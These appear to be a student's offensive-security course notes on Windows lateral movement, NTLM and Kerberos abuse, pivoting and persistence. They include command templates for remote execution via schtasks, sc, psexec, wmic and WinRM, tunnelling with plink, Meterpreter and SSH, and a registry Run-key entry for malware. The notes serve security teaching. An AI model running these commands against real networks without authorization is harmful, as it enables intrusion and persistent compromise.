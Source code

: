 # Lateral Movement

## 1. NTLM Authzentication and Abuse
NTLM serves to provide authentication, integrity and confidentiality. Even though dated (using MD4), it is still available in modern windows and is used when: standalone server is not domain joined, kerberos is not supported, ip address is used, DNS fails. In practice it is hardly ever possible to disable NTLM. 
Possible attacks are: 
- pass-the-hash
- NTLM relay (man-in-the-middle)
- break NTLM hash (as not that strong)



## 2. Lateral Movement
Given we have the required credentials, an attacker can move laterally (aka execute malicious code on other machines) by various means: 
- Create a scheduled task (on remote system)`
    - `schtasks /create /s {IP} /tn {name} /u {user} /sc {frequency} /p {password} /st {time} /sd {date} {command}`
- Creating System services
    - `sc \\IP create Service binPath=<command>`
- PsExec
    - `psexec \\test.domain -u Domain\User -p Password ipconfig`
- WMI
    - `wmic /node:target.domain process call create "C:\Windows\System32\cmd.exe /c payload.exe"`
- Windows Remote Management (WinRM)
    - `winrs -r:EXAMPLE.lab.local -u:DOMAIN\user -p:password calc.exe`
    - `Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }` via powershell
- DCOM
    - DCOM is a way to execute code on a remote machine. (is less easily detected than default tools)
    - Examples see "06 Lateral Movement.pdf"
        - run a excel on another machine (and excel runs macro)
    - DCOM can also be used to start/stop services, get system info, shut down system etc.

**Double-Hop-Problem** -> with Network logons (like WMI, WinRM)
Network logons don't send credentials to remote system and are therefore not available. So it is not possible to jump to the next machine from there. Therefore, attacker needs to steal a token from a non-network logon session and then inject it in to another process (see pdf)

*Remark: some of the techniques can also be used for persistence*
*Remark: cobalt strike has various means for lateral movement*


**Port forwarding**
To bypass firewalls, prevent inspection,  prevent being detected..
- PuTTY Link (SSH tunneling of a specific port)
    `plink.exe -l root -pw pass123 [target host] -R localhost:3389:127.0.0.1:3389`
- Meterpreter  (forward RDP from localhost to a target host pivoting thru the Meterpreter session)
    - `portfwd add –l 3389 –p 3389 –r [target host]`
- also possible with cobalt strike
- Linux
    - `ssh -L localhost:3389:127.0.0.1:3389 root@[target host]` SSH tunneling of a specific port
    - `ssh -D 9050 root@[target host]` application-level port forwarding acting as SOCKS server


**SOCKS Pivoting**
a bit like attacker machine can access ethernet interface of victim machine (and could for example create RDP sessions)
see pdf (example: How to tunnel the Windows RDP client to your target network?)
can be done with Cobalt Strike or Metasploit

**Password Spraying & Reuse**
see separate file 

## 3. Kerberos Authentication and Abuse
Possible attacks are: 
- Overpass the hash (aka pass-the-key)
- Pass the ticket
- Golden tickets 
- Silver tickets (similar to golden ticket but just for service)
- Kerberoasting (find weak hashes that can be cracked)
see separate file 


## 4. Persistance
How can an attacker keep a compromised machine when the machine is rebooted?
- Advantage: avoid re-compromising the machine
- Drawback: persistence could be detected
Aspects/Components:
- Payload: malicious code
- Payload storage: where to store it 
    - Alternate Data Streams
    - Custom WMI classes (WMI allows this)
    - Registry (stored as text)
- Code Execution Vectors: when/how to start it
    - User Driven
        - hidden in shortcut (.LNK)
            - example using regsvr32.exe and malware dll passed as argument
        - Backdor common .exe
    - startup folder (easy to detect)
    - Registry Run Keys  ("HKLM\Software\Microsoft\Windows\CurrentVersion\Run")
        - "reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v MalwareKey /t REG_SZ /d "...\Malware.exe""
    - Windows Service
    - scheduled tasks
        - Linux: cronjobs (or something like this)
    - WMI Event Subscriptions
    - COM Object Hijacking
        - see pdf 

Some ways 
- add code in startup folder (easy to detect)
- registry to trigger start of application
- shortcut -> when user clicks malware starts (or a download of the software can be triggered.. etc.)
- scheduled tasks
    - Linux: cronjobs (or something like this)
- etc.





